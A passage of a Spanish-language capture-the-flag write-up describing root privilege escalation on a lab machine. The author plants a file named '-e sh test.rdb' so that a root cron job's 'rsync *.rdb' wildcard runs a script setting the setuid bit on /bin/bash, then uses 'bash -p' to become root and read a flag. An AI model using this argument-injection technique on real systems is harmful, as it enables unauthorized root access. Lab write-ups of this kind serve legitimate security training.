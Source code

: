 ```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```
Procedemos a hacer lo siguiente:

Nos creamos un script llamado `test.rdb` que va a ser `ejecutado por root` pero `necesitamos meterle` el `parametro -e` al comando `rsync` para `que nos ejecute` el archivo `test.rdb` con bash por eso hemos tenido que crear un segundo archivo en cuestion:
```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ 
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh test.rdb'
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ echo 'chmod u+s /bin/bash' > test.rdb
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls -l
total 4
-rw-r--r-- 1 www-data www-data  0 Jun 15 13:47 -e sh test.rdb
-rw-r--r-- 1 www-data www-data 20 Jun 15 13:47 test.rdb
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$
```

Chequeamos a ver si la tarea Cron detectada (3min) nos ejecuta este script test.rdb y con un simple bash -p ya seriamos root

```bash
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1029624 Nov  5  2016 /bin/bash
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ bash -p
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
bash-4.3# whoami
root
--------- Pillamos la flag del User.txt ------------
bash-4.3# cd home/somaro/
bash-4.3# cat user.txt 
c09aca7cb02c968b1e9637d51xxxxxxxxxxx
```

Vemos si encontramos alguna flag de `root.txt` pero no hay nada, asiquie seguimos enumerando la maquina y nos fijamos otra vez en el `script de BACKUP` 
Aqui tenemos algo : BACKUP:873/src/backup?????
```bash
www-data@www:/backup$ cat backup.sh 

cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

# Explotacion del siguiente host atraves del comando rsync
Ya que Vemos la `/` de archivos nosotros con el `comando rsync` podemos `subir archivos con el parametro -a`
